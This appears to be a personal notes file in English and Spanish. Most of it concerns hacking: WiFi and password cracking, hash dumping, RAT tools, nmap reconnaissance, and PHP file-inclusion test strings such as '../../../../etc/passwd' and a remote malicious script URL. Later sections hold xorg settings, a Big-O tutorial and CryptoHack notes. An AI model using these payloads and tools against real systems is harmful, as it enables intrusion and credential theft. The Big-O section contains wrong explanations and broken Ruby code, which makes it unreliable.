    This will give us the password in the case the encryption is WEP

    The technique of WPA is:
  
    all .cap files have to be decrypted, so you should always:

    airdecap-ng (file).cap

    This will give us our same file but with dec name.

    Fluxion is a good tool for gathering information about a network.

    For WPA/WPA2 is the most use.

*** Armitage

    A cyber attack management for metasploit.

*** MITMF

    Framework for Man in the middle attack.

*** sslstrip2-master
*** Proxy like OWASP ZAP or Burpsuite Free
*** Netscan
*** Hacking Passwords
**** Threats

     Social Engineering, the best way to prevent against this form of
     attack would be avoiding the use of any information that may be
     common knowledge.

     Dumpster Diving and shoulder surdfind can provide useful
     information about someone that can be used to guess their password.

     Offline Password Cracking, If the attaciker has the password file
     then they have all the time in the world to run dictionaries and
     rainbow tables against it.

     Phishing, the cracker sends a link to a fake login page via email
     or chat. The victim clicks it, sees a familiar login page and
     enters their credentials.

     Password Sniffing means just waiting for you to type a password and
     grabbing off your system, network, or even right off your
     keyboard. hile keeping your computer clean of key capture dongles
     that fit between your keyboard and PC or malware that waits for
     password will help, it won-t do any good if the attacker is between
     you and the server you connect to. On web sites, enable HTTPS Only
     in youir browser to ensure that the site uses an encrypted
     connection whenever data is exchanged. Otherwise it-s too easy to
     grab your password straight from your connection to the server.

     Keyloggers, RATs and other malware can set up a keylogger or RAT
     server on the victim.
**** Hashed Passwords and Salts

     Storing passwords in plain text is bad, because of this, instead of
     keeping passwords lying around in plain text, let's encrypt them.

     The problems with encryption are the computing power required to
     encrypt and decrypt the password, and safely storing the encryption
     keys.

***** Hashes (MD5, SHA-1, SHA-2 and SHA-3)

      A hash is a mathematical formula that ses a password and sometimes
      random data (a salt) to return a single value. Think of a hash as
      a locksmith creating a key to fit one lock. The locksmith uses
      unique materials and spceial tools to make each key so that oly
      one key will ever fit that one lock. This hash key is built using
      the password as part of the material and some added information
      (the salt) to make the rest of the key. The hash key or hash
      string will only match one particular lock. If you try to create a
      duplicate key, the fake key won't match because only one key will
      ever fit that one lock.

      The random bits of data that are added to the hash algorithm, like
      a key for computations is called the salt.

      A salt is usually a string of random data from 48 to 128 bits
      long. The longer the salt, the higher the level of complexity and
      difficulty to crack.

    
***** Key Derivation Functions

      A step forward in hash functions are key derivation
      functions. These are ysed to derive keys from a string, a salt and
      a big number or iterations in a formula.

      DK (Derived Key) = KDF (Key, Salt, Iterations)

      The whole point is to make hash generation slow. But not too slow,
      "fast" hash algorithms let brute-force and dictionary attacks run
      wild; slow algorithms make them too slow to be pactical in many
      cases.

      Cryptology means altering information or data to make it
      incomprehensible and unreadable unless you possess some secret
      knowledge. One of the ways we do this is encryption.

      md5sum

**** Password Cracking
***** Use the brute force

      Brute-force attacks try every possible combination in the
      keyspace, or at least as many as it takes to find the
      password. They don't start with a list; they generate all the
      permutations on the fly. This means that brute-force attacks are
      very through on the one hand, but can take a very long time to run
      on the other. That's why experienced password crackers will try
      brute-forcing passwords of up to seven or eight characters in
      lower-case only, then switch to other attacks for longer and more
      complex passwords.

      Hashcat needs a hashdump file

      Dictionary Attacks uses a word list

      For dictionary attacks, use openwall, and John the Ripper

      How do you speed up dictionary attacks?, how about pre-hashing all
      those dictionary files?, the problem is that there are lots of
      different hashing algorithms our there. What you really need to do
      is hash each password with several different algorithms, and
      styore the results in a table with a column for each
      algorithm. These tables, with the plain and the hashes of
      different fixed lengths, these are Rainbow tables, and are an
      example of space/time tradeoff. In this case, the tradeoff is
      between huge use of disk space, to save huge amounts of time
      during actual cracking runs.

      Creating rainbow tables of entire word list is impractical
      precisely because of the issue of file size. So hashcrackers do
      something different. Cracking the hash by cracking small parts of
      it at a time, then assembling the parts. This is wildly clever and
      intensely mathematical.

      one logical attack is to look for repeated values in calculations:
      Using a hash (with salt) the word "Stun" could look like -dr23
      n9n2 8v84 llwi-. So, why not look for a pattern in other hash
      calculations to see if you can find a match?

      Rainbow tables do a nice trick, instead of looking for a whole
      password, rainbow tables let you look for fragments or pieces of
      passwords. Rainbow tables aren't exactly tables; they are a
      collection of columns in which each column uses a different
      reduction function. If you assigned each color you could think of
      the columns as a curve, or a rainbow. The whole idea is that if
      the calculated values of any two "colors" matches, you've found
      part of the password.

      From a mathematical perspective, try and wrap your mind around a
      simple formula of - v+x-4= 162

      Both v and x could be any combinations of numbers as long as the
      answer equals 162.

      The rainbow tablese already have hash values computed and any
      input you provide (to crack a password) is matched against each
      column (reducing values) until a perfect match is found. As we saw
      with "Stun" above, the hash calculation would look like this: dr23
      n9n2 8v84 2lwi. If you were to apply this into a rainbow table
      automated lookup generator, every two digits are analyzed and
      reduced to find a matching character. While this lookup is
      occurring, each column is reducing your input, thus speeding up
      the match finding process. Simple stuff, right?

      All the rainbow tables are doing is looking for the answer
      v+x-4= 162. The v and the x values are the unknown factors and the
      tables have already been calculated to find that type of answer,
      just on a massive scale.

      Since hash values are one-way, it is impossible to reverse
      engineer any hash string and expect to get a correct answer. Think
      of a hash calculation as a door that only opens in one direction
      and traffic can only flow in that same direction. It is highly
      likely that hash values will be the same somwhere along the way
      and that is how rainbow tables operate. Theycompare hash
      calculations that you provided against a massive collection of
      predetermined hash values. As the two digit set moves through the
      table, each column reduces the answer until a match is found.

      L0phtcrack is a powerful commercial password auditing tool.

      Combinator Attacks

      Rainbow tables have weakness: they're easily defeated when systems
      use a salt. When theu ser creates a password, the system also
      creates a random salt (a string of a few letters to add to the
      password), combines password and salt, and only then creates the
      hash. Every user's salt is unique to them. The salt can be stored
      unencrypted in the same table as the passwords hashes, it-s easier
      to stal both the hash and the salt, they're in the same table, so
      best practices seem to tell people to store the saltss in a
      separate table, or in a separate database, or on a separate
      machine.

      There are two commonly used methods to recover hash values in
      Windows. The first one is an injection using Local Security
      Authority Subsystem Service (LSASS) and the other is taking a
      direct reading off of the registry using SAM/System. LSASS reads
      the hash directly from memory, while SAM reads the local registry
      hives. There are other methods that can be used to gather hash
      values but LSASS and registry reads have a higher probability of
      success. Then the attacker can research and crack those hashes at
      his leisure off-line.  That's especially handy because the
      attacker can gather several (if not all) the hash strings in a
      single breach.

***** Network-based Password Cracking

      What about those times when you don't have a password hashdump,
      but need to recover the password to a database, web application or
      some other online service? This is wen you need a network password
      cracking tool.

      THC Hydra

      A speedy network authentication cracker which supports plenty of
      different services. When you need to brute force crack a remote
      authentication service, Hydra is ofthen the tool of choise. It can
      perform speedy dictionary assaults against more than 30 protocols,
      including telnet, ftp, http, https, smb, several databases and
      many more.

      Brutus

      Is a network brute-force authentication cracker. This Windows-only
      cracker tests network services on rmeote systems, trying to guess
      passwords by using a dictionary and permutations. It supports
      HTTP, POP3, FTP, SMB, TELNER, IMAP, NTP and more, it is not open
      source.

***** Wireless Password Cracking

      Aircrack, an open-source wireless security testing suite.

      It needs a wireless network interface controlled with a driver
      that supports raw monitoring mode (injection), and can sniff
      802.11a, 802.11b and 802.11g traffic.

      We'll need a average graphics card, known as a GPU for Graphic
      Processor Unit. These acrd are designed for repetitive task unlike
      a CPU, which is designed to all kinds of tasks. Even through your
      computer, smartphone, tablet and other devices have GPUs built
      into them, those chips are unlikely to be programmable by the
      user. They are locked chips that only accelerate the graphics for
      that device. The type of GPU needed to crack passwords (or mine
      bitcoins) are higher end gamer cards. A couple of these acards in
      a comoputer can crack passwords dozens of times faster but als
      ocosts more money.

      One of the best software programs out there for password recovery
      is oclHashcat, it's aimed at either AMD or nVidia/s graphics
      cards. Besides having control over almost every aspect of
      decrypting passwords. It also provides a watchdog to ensure you
      don't fry your GPU due to over temperature.

*** Hacking Social Networks

    NoIP so your IP doesn't change, and the connection isn't
    interrupted because of IP changes, for example, restarting your
    modem

    Adwind R.A.T, Remote Administration Tool

    indetectables RAT, INDRAT

    Advanced File Joiner

    unicodeinput.exe

*** Ethical Hacking, treeknow

    EvilFOCA
    FOCA PRO
    metadatos clean
    Certified Ethical Hacker (CEH) v8 and v7
    Ethical Hacking 2.0
    Web Hacking
    Backtrack 5 wireless penetration testing
    Curso de Hackeo Ricardo Nva
    Informatica Forense infortex
    alfaomega forense
   
    Malware are any malicious program, being it worms, spyware,
    troyans, virus or scripts that may damage a system.

    Exploit is made by showing any vulnerability in an app.

    Making Logic diagrams is great for any programmer, independent of
    the programming language

    Backdoors on-the-fly: www.hackerz.ir/e-books/init_rpi.txt

    Troyan Binaries: Replacing binaries of the system is a great way of
    hiding in plain sight
   
    Rootkits: Apps used to maintain root privileges on a server, making
    use of hidded processes.

    Sniffers: Capture logins of any packet on the network.

    in Linux/Unix or solaris, Shadows are used for these types of
    intrution, for Windows, SAM.

    Google Hack Honeypot

    Google Hacking for Penetration Testers, Volume 2, johnny Long

    http://johnny.ihackstuff.com/ghdb.php

    SmartWhoIs
    CountryWhois

**** Fase de Reconocimiento

     ROBTEX
     builtwith
     MALTEGO
     FOCA
     centralops.net
     proxylist.hidemyass.com
     geoipview.com
     robtex
     Netcraft
     THEHARVESTER

     in order to use the information, one has to know about the TCP/IP
     protocol. 

     For a normal TCP connection, it's necessary to follow a three step
     negociation. This negociation is started ith a SYN packet in the
     original machine, the other machine gives a SYN/ACK packet in
     response, which is finally responded with the original machine
     with a ACK packet.

     Once this is made, the connection is confirmed.

     A port scanner sends several SYN packets to the destination
     machine, and scans the response.

     If after sending a SYN packet on a specific port the destiny gives
     us a SYN/ACK, the port is open and listening to conections, if
     not, or if a ICMP Port Unreachable packet is received, the port is
     filtered by a firewall.

     | Port | Description                           |
     |------+---------------------------------------|
     |    1 | TCP Port Service Multiplexer TCPMUX   |
     |    5 | Remote Job Entry (RJE)                |
     |    7 | ECHO                                  |
     |   18 | Message Send Protocol (MSP)           |
     |   20 | FTP - Data                            |
     |   21 | FTP - Control                         |
     |   22 | SSH Remote Login Protocol             |
     |   23 | Telnet                                |
     |   25 | Simple Mail TRansfer Protocol (SMTP)  |
     |   29 | MSG ICP                               |
     |   37 | Time                                  |
     |   42 | Host Name Server (Nameserv)           |
     |   43 | WhoIs                                 |
     |   49 | Login Host Protocol (Login)           |
     |   53 | Domain Name System (DNS)              |
     |   69 | Trivial File Transfer Protocol (TFTP) |
     |   70 | Gopher Services                       |
     |   79 | Finger                                |
     |   80 | HTTP                                  |
     |  103 | X.400 Standard                        |
     |  108 | SNA Gateway Access Server             |
     |  109 | POP2 110 POP3                         |
     |  115 | Simple File Transfer Protocol (SFTP)  |
     |  119 | SQL Services                          |
     |  119 | Newsgroup (NNTP)                      |
     |  137 | NetBIOS Name Service                  |
     |  139 | NetBIOS Datagram Service              |
     |  143 | Interim Mail Access Protocol (IMAP)   |
     |  150 | NetBIOS Session Service               |
     |  156 | SQL Server                            |
     |  161 | SNMP                                  |
     |  179 | Border Gateway Protocol (BGP)         |
     |  190 | Gateway Access Control Protocol       |
     |  194 | Internet Relay Chat (IRC)             |
     |  197 | Directory Location Service (DLS)      |
     |  389 | Lightweight Directory Access Protocol |
     |  396 | Novell Netware over IP                |
     |  443 | HTTPS                                 |
     |  444 | Simple Network Paging Protocol        |
     |  445 | Microsoft-DS                          |
     |  458 | Apple QuickTime                       |
     |  546 | DHCP Client                           |
     |  547 | DHCP Server                           |
     |  563 | SNEWS                                 |
     |  569 | MSN 1080 Socks                        |

     Well known ports, to a full list of dinamic and private ports, go
     to wwww.iana.org/assignments/port-numbers

     www.eeye.com and wwww.appsecinc.com
     Nessus
    
     Nmap:

     Ports listing : nmap-sS IP
     Barrida de rango: nmap -sS 200.**.0.2-200 (Scans in a range, from
     2 to 200)
     Barrida de rango buscando los puertos SSH, Netbios, FTP y Telnet: 
     nmap -sS -p 22,21,139,23 200.**0.2-200
     Operating system: nmap -O -v IP
     Services versions: nmap -T Aggressive -sV -n -O -v IP

     UMIT, the nmap frontend

     Inyection:

     In PHP querys, one can inject special characters, even web links
     that execute scripts with commands, these querys are calls for
     files or variables that made some .php scripts in the server, for
     example: sitiovictima/file.php?id=34 (calling a variable),
     sitiovictima/file.php?file=encuesta.htm (calling for a
     file). Let's suppose that after the = character we put '' or URLS
     with scripts to execute commands in the server, or simply generate
     errors to see which information the target gives us.

     sitiovictima/file.php?file='
     sitiovictima/file.php?file=../../../../../etc/passwd
     sitiovictima/file.php?file=/etc/passwd00%
     sitiovictima/file.php?file=www.sitiodeporahi.com/scriptmaligno.php
     sitiovictima/file.php?file=www.sitiodeporahi.com/archivoasubir.gif
     sitiovictima/file.php?file=sitiovictima/file.php
     sitiovictima/file.php?file=file.php
     sitiovictima/file.php?file=anything to generate errors to achieve
     something on the app

     Jeffrey's Exif Viewer

     Any tool can't compare with the imagination of the human in any
     type of problem.

     A security check only basedo n tools, operating systems and
     exploits without a mind behind is not more than checking for
     normal problems. In the more common problems we can say:

     sitiovictima/robots.txt, sitiovictima/backup/ and
     sitiovictima/upload.asp
    
     telnet 

     SecureCTR (www.vandyke.com)

     AMAP

     Some examples of HTTP petitions are:

     Discover if the target is vulnerable to SQL injection putting a
     simple ' on a login or string in the URL.

     Searching of directories
     Hidden Subdomains , intranets, extranets
     CGIs known or not, XSS
     Paths with / at the end
     Administration web panels, ftp, mail or another institutional app
     or private of intern design.
     Apps to upload files
     Repositories of confidential files or not, hidden or not.
     Common files as robots.txt, that give a list of public paths and
     hidden in the server
     Code of the page
     If Remote scripts can be injected
    
     A good tool is CURL, a command line interface to transfer files
     with a sintax URL, support for FTP, FTPS, HTTP, HTTPS, SFTP, TFTP,
     LDAP, LDAPS. Curls supports SSL certificated, HTTP POST, HTTP PUT,
     FTP uploading, HTTP form based upload, proxies, cookies,
     user+password authentication, file transfer resume, proxy
     tunneling and others.

     Commands can be injected
     Cookies can be injected
     Is possible to make a file retrieve, extract/read operating system
     files.
     Directories can be traspassed
     Jumping accessing controls of data with a proxy
     URL parameters can be replaced to generate erros.
     Downloading of binary files or another type for analize
     A file manager can be found
     Another, as trying to add data via POST clicking the bottom accept
     and then Enter, see if there is a difference in the comprobation,
     or making a retrieve of any password or data.

    
*** GRSecurity

    GRecurity is a set of patches for the linux kernel with and
    emphasis on enhancing security. Its typical application is in web
    servers and systems that accept remote connections from untrusted
    locations, such as systems offering shell access to its users.

    GRsecurity is free software.

**** PaX

     A major component bundled with grsecurity is PaX, which is a patch
     that ,amogst other things, flags data memory, such as that on the
     stack, as non-executable, and program memory as non0writable. The
     aim is to prevent executable memory pages from being overwritten
     with injected machine code, which prevents exploitation of many
     types of security vulnerabilities, such as buffer overflows. PaX
     also provides address space layout randomization addressess being
     easily known. PaX is not itself developed by the grsecurity
     developers.

     GRsecurity provides a full Role0based access control (RBAC)
     system. RBAC is intented to restric access to the system further
     than what is normally provided by Unix access control lists, with
     the aim of creating a fully least-privilege system, where users
     and processess have the absolute minimun privilegese to work
     correctly and nothing more. This way, if the system is
     compromised, the ability by the attacker to damage or gain
     snesitive information on the system can be drastically
     reduced. RBAC works through a collection of "roles". Each role can
     have individual restrictionxs on what they can or cannot do, and
     these rolees and restrictions form a "policy" which can be amended
     as needed.

* Working with Window Managers


  Some configuration tips to always have, xorg.

  In /etc/X11/xorg.conf.d/00-keyboard.conf, copy:

  #+BEGIN_SRC bash
Section "InputClass"
        Identifier "system-keyboard"
        Option "XkbLayout" "us,latam"
        Option "XkbOptions" "ctrl:nocaps"
EndSection
  #+END_SRC

  For Mouse acceleration, in
  /usr/share/X11/xorg.conf.d/50-mouse-acceleration.conf, copy:

  #+BEGIN_SRC bash
Section "InputClass"
    Identifier "My Mouse"
    MatchIsPointer "yes"
    Option "AccelerationProfile" "-1"
    Option "AccelerationScheme" "none"
    Option "AccelSpeed" "-1"
EndSection
  #+END_SRC

  For multi-monitor, it will autodetect the screen next time plugged:

  #+BEGIN_SRC bash
xrandr --output VGA-1 --auto --right-of eDP-1
  #+END_SRC
  Or, use arandr, xrandr GUI tool
* GNU/Linux System Admin

For checking devices FLOSS'ness, we can use h-node
* Big O Notation

** Introducción

   ¿Qué diferencia a un buen programador a un programador cualquiera?,
   su código. El primero piensa en cosas como optimización, minimalismo
   y en la lectura de su código.

   Te presentaré un termino importante en Data Sciense, trabaja con
   análisis de sensibilidad, búsqueda de binarios y un ejemplo con
   números Fibonacci. Si eso sono como mandarín, no te preocupes, lo
   explicaré de la manera más sencilla posible.

   /aún/ no sabemos que significa este gráfico, pero estúdiale:

   [[https://cdn-media-1.freecodecamp.org/images/1*KfZYFUT2OKfjekJlCeYvuQ.jpeg]]

*** Definiciones usadas

    - Algoritmo :: Función en tu programa
    - Tipos de datos :: Integers, strings, arrays, etcétera.

    Uno de los campos de estudio de la Data Science, es el cálculo de
    algoritmos en un grupo de datos muy grande, a esto se le llama
    análisis de sensibilidad.

    Es, simplemente, en un grupo de datos muy grande, aplicar la mejor
    búsqueda de binarios posible, esta última siendo el algorítmo
    depende a la situación.

    Aquí es dónde viene la Big-O Notation, una manera de calcular la
    complejidad y el tiempo que tarda un algoritmo en completarse. Para
    esto utiliza diferentes funciones que se adecúan a la situación.

    Hagamos un ejemplo, en un array del [1...10], si quieres obtener un
    valor, digamos 7, te pregunto:

    ¿Cuál es la manera mas rápida par obtener el valor 7?, ¿Ubicandolo
    por Index o iterando por todo el array?.

    La respuesta es obvia, ya de por si iterar por cada elemento suena
    como mucho trabajo, igual para la computadora, si retornar el 7 por
    index tarda 0.1 segundos, entonces iterar tarda 0.5 segundos. Algo
    mínimo si me preguntas.

    Sin embargo, esto toma importancia de acuerdo  lo grande del array,
    en una array de [1...100000], si retornamos un valor por index,
    tardará 0.1 segundos, mientras que iterando, tardara 15
    minutos. ¿Gran diferencia no?.

    La Big-O notation utiliza funciones con los siguientes elementos:

    - O :: Tiempo que tarda la operación, llamemoslo el runtime.
    - n :: Los datos que daremos como parámetro, o que tan largo es la
           lista o array.
    - log :: Representa un logaritmo aplicado.

    Además de esto, hay que decir que la Big-O notation solo clacula el
    peor tiempo posible, con esto me refiero a, que si estamos
    calculando el tiempo que tarda una obtener el tiempo total de
    obtener un valor en el array [1...10], estaremos calculando en el
    caso de que queramos el valor 9.

    Igualmente, en el array [1...100], calcularemos el tiempo en que
    busquemos el valor 99. Esto es una manera de saber el la peor
    situación a la que se puede presentar tu logaritmo.

    Además de esto, mientras esté explicando las diferentes funciones
    de Big-O notation, notarás que una se ve más rápida que otra, sin
    embargo, ninguna funcion es en sí más ráipida, si no que depende de
    la situación  reglas en las que se esté usando.

    Una vez definicido esto, pasemos a las funciones

*** O(1)

    Representa que, el tiempo será siempre el mismo independientemente
    de que tan grande es la array, por eso no vemos n en esta función.

    Por ejemplo, si estuvieramos obteniendo un valor sabiendo su index,
    por lo que no nos interesa si la array es [1...10] o [1...100]. Ya
    que siempre tardará 0.2 segundos para encontrar el index y retornar
    el resultado.

    Su representación en código sería:
   
    #+BEGIN_SRC ruby :results output

    # Simplemente damos su posicion
    some_array = [1,2,3,4,5,6,7,8,9,10]
    puts some_array[6]
   
    #+END_SRC

    #+RESULTS:
    : 7

    [[https://lukasmestan.com/assets/images/o-1.png]]

*** O(n)

    El runtime es proporcional al tamaño del array, por ejemplo en un
    array de [1...10], el runtime será 10 segundos, en un array de
    [1..100], 100 segundos.

    Un ejemplo de esto es iterar entre cada elemento hasta encontrar el
    resultado.

    Su representación en código sería una iteración:

    #+BEGIN_SRC ruby :results output

    some_array = [1,2,3,4,5,6,7,8,9,10]
    some_array.each {|item| puts item}
   
    #+END_SRC

    #+RESULTS:
    #+begin_example
    1
    2
    3
    4
    5
    6
    7
    8
    9
    10
    #+end_example

    [[https://lukasmestan.com/assets/images/o-n.png]]

*** O(log(n))

    Representa aplicar un logaritmo en el array. Por ejemplo, si
    queremos retornar el valor de 88 en el array [1...100], podemos
    hacer un logaritmo que busque un número 87> y <89. 

    Para dar un mejor ejemplo, comparemos O(n) y O(log(n)). Demos un
    ejemplo con cartas.

    Si quisieras adivinar que carta escogio alguien, el primer
    algoritmo sería como preguntar, carta por carta, hasta dar con el
    resultado. Mientras que la función con logaritmo, sería más
    acertado, al preguntar: ¿es un número par?, ¿qué color es?,
    ¿simbolo?.

    Por lo que, el logaritmo estará más cerca de la respuesta más
    rápido que ir de preguntando de carta en carta.

    Su representación en código sería un logaritmo cualquiera:

    #+BEGIN_SRC ruby :results output

    some_array = [1,2,3,4,5,6,7,8,9,10]

    if some_array.length == 10 
    puts some_array[5]
    end
   
    #+END_SRC

    #+RESULTS:
    : 6

    [[https://lukasmestan.com/assets/images/o-log-n.png]]

*** O(n (log (n))

    Según los anteriores logaritmos, este significa, iterar en un
    elementos, aplicar un logatirmo en dicho elementos, y seguir.

    Esto puede ser útil si, por ejemplo, para encontrar un buen
    resultado, es necesario hacer pruebas posteriores. En el poe caso
    es más lento que O(log n), sin embargo, puede ser más exacto en su
    respuesta. Cada una Como dije anteriormente, cada una de las
    funciones son usados en diferentes situaciones.

    Su representación en código sería una iteración más un logaritmo:

    #+BEGIN_SRC ruby :results output

      some_array = [1,2,3,4,5,6,7,8,9,10]

      some_array.each do |item|
	if item == 7
	  puts item
	end
      end

    #+END_SRC

    #+RESULTS:
    : 7

***  O(n^2)

    El runtime es proporcional a lo grande del array multiplicados a la
    dos, en un array de [1...10], tomará 20 segundos, mientras que en
    uno de [1...20], tomará 40 segundos. Si n = 5, el resultado
    sería 25.

    Su representación en código, es una iteración doble:

    #+BEGIN_SRC ruby :results output

      some_array = [1,2,3,4,5,6,7,8,9,10]

      some_array.each do |item|
	while item < 5
	  puts item
	end
      end

    #+END_SRC

    [[https://lukasmestan.com/assets/images/o-n2.png]]

*** O(2^n)

    El runtime, es exponencial, si n = 5, el resultado sería 32.

    En esta función, gráficamente comienza lento, y luego aumenta
    exponencialmente, un ejemplo de esto son los números fibonacci.

    Los números fibonacci consisté en que el siguiente número es igual
    a la suma de los dos números anteriores, por ejemplo:

    1, 2, 3, 5, 8, 13, 21...

    Entonces, se podría decir que los números Fibonacci auentan
    exponencialmente, tal y cómo nuestra función. Su representación en
    código sería también, con los números fibonacci:

    #+BEGIN_SRC ruby results :output

      some_array = [1,2,3,4,5,6,7,8,9,10]
      some_array.each do |item|
	if item = 1
	  return 1
	else
	  return (item(item -1))(item(item -2))
	end
      end

    #+END_SRC

*** O(!n)

    Prueba 'todo' para llegar al resultado, esto puede ser confuso,
    pero un gran ejemplo es el problema del vendedor ambulante.

    El vendedor tiene que ir a diferentes ciudades (n), en cada ciudad
    hay diferentes calles y conexiones entre ellas, ¿Cuál sería la
    manera más eficiente de viajar sin repetir sus pasos?.

    Para resolver este problema, esta función calcula cualquier
    posición posible, se podría decir que gasta tiempo calculando casos
    los cuales no tienen sentido.

    Luego, obtiene la mejor solución posible y la presenta.

    En este ejemplo, se presentan diferentes resultados, pero la
    función tarda 'ordenando' esos resultados, esto les lo que hace
    nuestra función. Un ejemplo en código sería representar el problema
    del vendedor ambulante:

    #+BEGIN_SRC ruby :results output

      some_array = [1,2,3,4,5,6,7,8,9,10]
      some_array.each do |item|
      =begin
      Código representando las calles y sus distancias, 
      luego de ese código, calcular la mejor ruta con menor distancia
      =end
	return mejor-ruta
	# Mejor ruta es el resultado de todos los procesos, sin embargo,
	# ya se gasto procesamiento y tiempo calculando los demás
      end

    #+END_SRC
   



    Si vamos más a fondo, encontrámos que estás funciones representan
    logaritmos famosos para el ordenamiento de datos en Data Science,
    veamos algunos:
   

* CRYPTOHACK

  Compilation of information in the CRYPTOHACK site. We use python
  here.

  Here's a python script example, that sends JSON to a host and specific
  port.

  We first start importing and setting variables

  #+NAME: sendJson
  #+BEGIN_SRC python :noweb yes :tangle sendJson.py
  #!/usr/bin/env python3
  import telnetlib
  import json  
  
  HOST = "socket.cryptohack.org"
  PORT = 11112
  #+END_SRC
  
  We set this file to be executed by python3, and import /telnetlib/
  library in the official documentation:

  'provides a Telnet class that implements the Telnet protocol. In
  addition, it provides symbolic constants for the protocol
  characters.
  
  The /Telnet/ class represents a connection to a Telnet server.'

  In the Telnet Protocol Specification:

  'The purpose of the TELNET protocol is to provide a fairly general,
  bi-directional, eight-bit byte oriented communications
  facility. Its primary goal is to allow a standard method of
  interfacing terminal devices and terminal-oriented processes to each
  other. It is envisioned that the protocol may also be used for
  terminal-terminal communication ("linking") and process-process
  communications (distributed computation).'
  		 
  From here, we know that as apache, TELNET is a protocol to open a
  server, but for different usages than showing we pages.
  
  From /MakeUseOf Explains/:

  '
  - Bidirectional: Means Telnet is not one-way; it can be used to send
  and receive information.

  - Interactive: It expects a live user on one end of the line. It's
    built to be human-readable.

  - Text-oriented: It is a text-only protocol
  '

  'The /one/ thing you should know about Telnet is that, it is *not* a
  secure protocol. When you log into a remote host using Telnet, your
  username and password are sent "in the clear" - meaning, in plain
  text and not encrypted in any way.'

  We also import the JSON module to be able to generate and use and
  control JSON data using python code.

  

  		 		 
    
* Hacking Guides

** Learn Nmap

   Allows us to scan ports and information of a given target by its IP.

   The '-A' option means aggressive. '-o' stands for OS '-sC' runs
   several scripts inside of nmap once.

   'nmap --script dns-brute google.com' allows us to identify the
   servers the target is using
   
   nmap --script=firewalk --traceroute
   --script-args=firewalk.max-retries=1 domain.com

   nmap --script http-sitemap-generator domain.com -p 80

   nmap -sS -vv -d -sC -sV -O

   'nmap -p445 --script smb-vuln-ms17-010 192.168.1.0/24' checks a
   windows PC and looks for vulnerabilities

   nmap -sT 216.92.116.13

   ftp

   netcat

   netstat -a

   netstat -aon

   For information about your system and ports.

   nmap -sS -O 127.0.0.1, the -sS is to do a SYN or so-called stealth scan, and
   -O for 'guess operating system'.

   In Nmap, all ports that are marked as 'filtered' means that they're protected
   by a firewall. They're well-known and vulnerable, so they should always be
   blocked. 

   Syn Scan

   The information that we will need is:
   
	- Firewall brand, model, firmware version, and software patches that exists

	- Remote connections authentication, access privileges, and processes.

	- Other servers that connect to the network, this includes Email HTML,
	  back-up, redundant, off-site, hired or out-sourced services, and even
	  contractors that may have used your network or are using it now.

	- Printers, fac machines, photocopiers, wireless routers, and network
	  connections in your company waiting room.

	  nmap --script dns-brute domain.com, this allows us to identify
	  the servers of the target

	  nmap --script=firewalk --traceroute
	  --script-args=firewalk.max-retries=1 domain.com

	  nmap --script http-sitemap-generator domain.com -p 80

	  portalhacker.net
	  Lbrary

	  nmap -sS -vv -d -sC -sV -O

	  nmap -sTV -Pn -n --top-ports 10 --reason -oA hhs_5_06 hackerhighschool.org

	  In Nmap, all ports that are marked as 'filtered' means that they're protected
	  by a firewall. They're well-known and vulnerable, so they should always be
	  blocked. 

	  SYN Scan
	  Another famous scanning technique is the SYN scan. When nmap is doing this type
	  of scan, nmap sends only a SYN packet without completing the three-way
	  handshake***. This is also called a "half-open" or "stealth" scan, because
	  there TCP connections are not completed. (Be very clear that while a target
	  may not log a connection, you are still making digital "noise" that can be
	  detected.)

** Metasploit

   'Metasploit is an exploitation and vulnerability validation tool
   that helps you divide the penetration testing workflow into
   manageable sections.'

   There are several commands we use in metasploit, first we can list
   all available exploits:

